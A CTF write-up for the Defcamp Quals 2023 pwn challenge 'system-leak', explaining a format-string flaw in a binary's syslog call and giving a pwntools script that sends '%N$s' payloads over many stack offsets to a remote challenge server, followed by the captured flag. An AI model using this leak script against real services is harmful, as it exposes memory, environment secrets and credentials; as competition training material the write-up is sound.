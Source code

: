 ```yaml
---
title: system-leak
date: 2023-10-22T09:56:31+03:00
description: Writeup for system-leak [Defcamp Quals 2023]
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

Leak the entire system, but wait this is not zeenbleed.

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```
$ checksec syslog
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols	  No	0		4		syslog
```
All protections enabled! Wow! When I saw this initially I thought this will be a hard binary to exploit. So I went on and played with ``system-write`` first, lol. Please check that writeup for a full run-down of the binary.

The important thing to notice for this binary is the fact that ``syslog`` uses format strings. We have an arbitrary read through format string vulnerabilities. Since the description hints to leaking the whole system, the initial idea I had was to leak the whole stack and hope we get some ENV strings with the flag in them.

```c
	printf("Enter the message to write to syslog: ");
	fgets(local_218,0x200,stdin);
	fgets(local_218,0x200,stdin);
	syslog((int)local_222,local_218);
	closelog();
```

### Solution

The solution is just that - leaking strings from the stack for fun. We manually try different offsets and print strings in batches. I made a really quick, stupid script to do that:
```py
#!/usr/bin/env python3

from pwn import *

#target = process("./syslog")
target = remote("35.246.203.171", 31245)

lines = []

# Play around with this offset, it might crash at certain offsets because addresses are not dereferencible
for i in range(120, 1600):
    target.sendline(b"1")
    target.sendline(b"1") # priority

    payload = "%{}$s".format(i).encode()

    target.sendline(payload)

    target.sendline(b"2")
    target.recvuntil(b'syslog')
    lines.append(target.recvline())
    print(lines[-1])

print(lines)
target.interactive()
```

#### Flag

```CTF{ab8f8dff1ca8d424d56d3e8b41296cba0ba4e2a7985927b510fe2734dacee073}```

